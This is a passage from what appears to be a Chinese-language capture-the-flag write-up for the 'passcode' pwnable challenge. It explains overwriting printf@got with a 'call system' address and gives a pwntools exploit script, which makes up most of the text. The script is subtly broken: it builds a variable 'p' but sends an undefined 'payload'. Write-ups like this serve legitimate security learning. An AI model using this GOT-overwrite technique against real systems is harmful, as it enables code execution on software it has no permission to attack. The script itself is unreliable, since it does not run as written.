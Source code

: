 ![](/assets/img/writeup/2017-08-13-pwnable-writeup/0x005-006.png)

现在可以实现任意写, 将printf@got改写成call system处的地址
![](/assets/img/writeup/2017-08-13-pwnable-writeup/0x005-007.png)

```
#!/usr/bin/python
# -*- coding:utf8 -*-

from pwn import *

s = process('./passcode')

printf_addr = 0x0804a000
system_addr = 134514147

p = "1" * 0x60 
p += p32(printf_addr) 
p += "\n"
p += str(system_addr) 
p += "\n"

s.send(payload)
s.recv()
```
